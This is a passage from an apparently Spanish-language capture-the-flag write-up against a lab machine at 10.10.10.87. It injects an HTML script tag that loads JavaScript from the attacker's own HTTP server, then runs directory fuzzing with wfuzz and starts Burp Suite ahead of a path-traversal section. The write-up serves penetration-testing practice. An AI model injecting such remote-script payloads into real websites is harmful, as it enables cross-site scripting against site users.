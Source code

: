 - Como se esta interpretando la etiqueta vamos a ejecutar un servidor http con python3 para ver si recibimos alguna petición.

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

- Vamos a inyectar lo siguiente.

```bash
<script src="http://10.10.14.23:8080/zi.js"></script>
```

- Bueno si esperamos varios minutos no recibimos nada así que descartamos posibles ataques mediante las etiquetas html de momento.

- Vamos hacer Fuzzing para ver si encontramos nuevas rutas.

```bash
❯ wfuzz -c --hc=404 --hl=0 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt http://10.10.10.87/list.html/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.87/list.html/FUZZ
Total requests: 87664

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

```

## PATH Traversal

- No encontramos nada, vamos a capturar con `Burpsuite` la petición de la pagina web `http://10.10.10.87/list.html` para ver como esta todo por detrás.

```bash
❯ burpsuite &>/dev/null & disown
```

- Si también capturamos peticiones cuando damos en add vemos rutas nuevas.

<p align="center">